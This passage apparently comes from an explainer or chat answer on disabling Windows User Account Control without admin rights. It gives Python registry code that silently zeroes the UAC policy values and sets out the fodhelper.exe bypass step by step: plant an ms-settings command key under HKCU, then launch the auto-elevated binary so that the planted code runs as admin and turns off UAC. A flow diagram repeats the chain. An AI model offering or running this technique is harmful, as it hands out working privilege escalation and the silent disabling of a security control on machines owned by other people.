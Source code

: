 **Result:**
- Writes: `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ICM\Calibration` 🔴
- How: Via privileged COM interface (not direct HKLM write)
- This is: **Elevation of privilege exploit** (patched in modern Windows)

---

### **Example 3: Silent UAC Disable (Requires Admin)**

```python
def silent_disable_uac_method1():
    """Method 1: Direct registry modification (Python winreg)."""
    
    reg_path = r"SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"
    
    # ❌ This REQUIRES admin privileges to write
    with winreg.OpenKey(winreg.HKEY_LOCAL_MACHINE, reg_path, 0, winreg.KEY_SET_VALUE) as key:
        winreg.SetValueEx(key, "EnableLUA", 0, winreg.REG_DWORD, 0)
        winreg.SetValueEx(key, "ConsentPromptBehaviorAdmin", 0, winreg.REG_DWORD, 0)
        winreg.SetValueEx(key, "PromptOnSecureDesktop", 0, winreg.REG_DWORD, 0)
```

**Result:**
- Writes: `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System` ❌
- Requires: **Admin privileges** ❌
- Will fail: If not running as admin ❌

---

## 🎯 The REAL Question: Can You Disable UAC Without Admin?

### **Answer: NO (directly), but YES (via exploit)**

**Direct Method (Fails):**
```python
# ❌ This will fail without admin
winreg.OpenKey(winreg.HKEY_LOCAL_MACHINE, ..., winreg.KEY_SET_VALUE)
# Error: Access denied (requires admin)
```

**Exploit Method (Works via bypass):**
```python
# ✅ Step 1: Write to HKCU (allowed)
winreg.CreateKey(winreg.HKEY_CURRENT_USER, r"Software\Classes\ms-settings\Shell\Open\command")

# ✅ Step 2: Launch fodhelper.exe (auto-elevated)
subprocess.Popen([fodhelper_path])

# ✅ Step 3: Fodhelper runs YOUR code as admin
# ✅ Step 4: NOW your code can write to HKLM
```

**Flow:**
```
Standard User (no admin)
    ↓
Write malicious key to HKCU (allowed)
    ↓
Launch auto-elevated process (fodhelper.exe)
    ↓
Auto-elevated process runs as ADMIN
    ↓
Process executes YOUR code with ADMIN privileges
    ↓
Your code NOW can write to HKLM
    ↓
UAC disabled in HKLM ✅
```